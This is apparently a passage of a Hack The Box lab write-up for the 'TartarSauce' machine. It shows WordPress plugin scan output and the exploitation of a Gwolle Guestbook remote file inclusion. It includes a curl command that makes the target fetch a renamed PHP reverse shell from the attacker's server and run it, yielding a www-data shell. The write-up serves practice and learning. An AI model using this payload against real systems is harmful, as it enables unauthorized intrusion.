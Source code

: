 		 | Version: 1.5.3 (100% confidence)
		 | Found By: Readme - Stable Tag (Aggressive Detection)
		 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
		 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
		 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/brute-force-login-protection/readme.txt
		
		[+] gwolle-gb
		 | Location: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/
		 | Last Updated: 2021-12-09T08:36:00.000Z
		 | Readme: http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
		 | [!] The version is out of date, the latest version is 4.2.1
		 |
		 | Found By: Known Locations (Aggressive Detection)
		 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/, status: 200
		 |
		 | Version: 2.3.10 (100% confidence)
		 | Found By: Readme - Stable Tag (Aggressive Detection)
		 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
		 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
		 |  - http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt
		```
		- `gwolle-gb` - not vulnerable
		- `brute-force-login-protection` - not vulnerable
	3. Even though the plugins are not vulnerable, try the exploits
	4. Search exploits for `brute-force-login-protection`
		- No results
	5. Search exploits for `gwolle-gb`

		| Exploit Title | Path |
		| ------------- | ---- |
		|   WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion                                                                           | php/webapps/38861.txt
	6. Try `php/webapps/38861.txt`
		1. How does it work?
			- Gwolle guestbook is vulnerable to remote file inclusion
			- HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named `wp-load.php` from arbitrary remote server and execute its content on the vulnerable web server.
			- `http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]`
		2. Rename `php-reverse-shell.php` to `wp-load.php`
		3. Start python web server hosting `wp-load.php`
		4. Start listener
		5. Invoke reverse shell
			```
			┌──(root💀kali)-[~/htb/tartarsauce]
			└─# curl http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.13:80/
			```
		6. Obtained `www-data` shell
			![](Pasted%20image%2020220907050822.png)